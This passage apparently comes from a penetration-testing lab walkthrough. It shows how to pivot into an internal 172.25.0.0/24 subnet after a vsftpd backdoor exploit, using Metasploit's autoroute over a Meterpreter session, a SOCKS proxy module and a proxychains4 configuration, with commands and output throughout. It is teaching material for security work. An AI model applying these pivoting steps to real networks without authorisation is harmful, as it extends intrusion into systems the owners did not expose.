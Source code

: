 First, we need to set up a route in Metasploit for this new subnet:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > `use post/multi/manage/autoroute`
msf6 post(multi/manage/autoroute) > set SUBNET 172.25.0.0
SUBNET => 172.25.0.0
msf6 post(multi/manage/autoroute) > set NETMASK 24
NETMASK => 24
msf6 post(multi/manage/autoroute) > set SESSION 2
SESSION => 2
msf6 post(multi/manage/autoroute) > run

[*] Running module against 172.24.0.2
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.24.0.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 172.25.0.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.24.0.0         255.255.255.0      Session 2
   172.25.0.0         255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
```

Now Metasploit knows to route any traffic for `172.25.0.0/24` through our Meterpreter session,
giving us access to the internal network from Metasploit running on our attacker machine.

However, this is only usable within Metasploit as it's set up in Metasploit's routing tables.
To make this route accessible to all our tools outside Metasploit, we can set up a SOCKS proxy like so:

```
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server
```

Now we have a SOCKS5 proxy running on our local machine (which by default listens on `0.0.0.0:1080`).
The last step is to add this proxy to our Proxychains4 configurations so we can use it with our other applications.
Edit your configuration at `/etc/proxychains4.conf` using an editor of your choice and insert your new proxy at the bottom:

```
strict_chain
quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
```
